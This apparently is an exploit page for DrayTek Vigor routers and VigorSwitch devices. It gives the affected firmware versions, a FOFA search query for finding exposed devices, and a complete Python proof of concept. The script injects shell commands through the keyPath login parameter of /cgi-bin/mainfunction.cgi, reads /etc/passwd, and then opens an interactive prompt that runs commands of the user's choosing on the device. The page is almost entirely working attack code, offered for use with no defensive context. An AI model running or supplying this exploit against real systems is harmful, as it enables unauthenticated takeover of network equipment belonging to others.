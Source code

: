 <languages  />

Vulnerability Impact
--------------------

    Vigor2960 < v1.5.1

    Vigor300B < v1.5.1

    Vigor3900 < v1.5.1

    VigorSwitch20P2121 <= v2.3.2

    VigorSwitch20G1280 <= v2.3.2

    VigorSwitch20P1280 <= v2.3.2

    VigorSwitch20G2280 <= v2.3.2

    VigorSwitch20P2280 <= v2.3.2

FOFA
----

    title="Vigor 2960"

POC
---

    import requests
    import sys
    import random
    import re
    from requests.packages.urllib3.exceptions import InsecureRequestWarning

    def title():
        print('+------------------------------------------')
        print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
        print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
        print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
        print('+  \033[34mVersion: DrayTek企业网络设备                                        \033[0m')
        print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
        print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
        print('+  \033[36mCmd         >>> pwd                                                \033[0m')
        print('+------------------------------------------')

    def POC_1(target_url):
        vuln_url = target_url + "/cgi-bin/mainfunction.cgi"
        headers = {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        }
        data = "action=login&keyPath=%27%0A%2fbin%2fcat${IFS}/etc/passwd%0A%27&loginUser=a&loginPwd=a"
        try:
            requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
            response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
            print("\033[32m[o] 正在请求 {}/cgi-bin/mainfunction.cgi \033[0m".format(target_url))
            if "root" in response.text and response.status_code == 200:
                print("\033[32m[o] 目标 {}存在漏洞 ,成功读取 /etc/passwd \033[0m".format(target_url))
                print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
                while True:
                    Cmd = input("\033[35mCmd >>> \033[0m")
                    if Cmd == "exit":
                        sys.exit(0)
                    else:
                        POC_2(target_url, Cmd)
            else:
                print("\033[31m[x] 不存在漏洞 \033[0m")
                sys.exit(0)
        except Exception as e:
            print("\033[31m[x] 请求失败 \033[0m", e)
            sys.exit(0)

    def POC_2(target_url, Cmd):
        vuln_url = target_url + "/cgi-bin/mainfunction.cgi"
        headers = {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        }
        Cmd = Cmd.replace(' ','${IFS}')
        data = "action=login&keyPath=%27%0A%2fbin%2f%26{}%0A%27&loginUser=a&loginPwd=a".format(Cmd)
        try:
            requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
            response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
            if response.status_code == 200:
                print("\033[32m[o] 正在请求 {}/cgi-bin/mainfunction.cgi \033[0m".format(target_url))
                print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
        except Exception as e:
            print("\033[31m[x] 请求失败 \033[0m", e)

    if __name__ == '__main__':
        title()
        target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
        POC_1(target_url)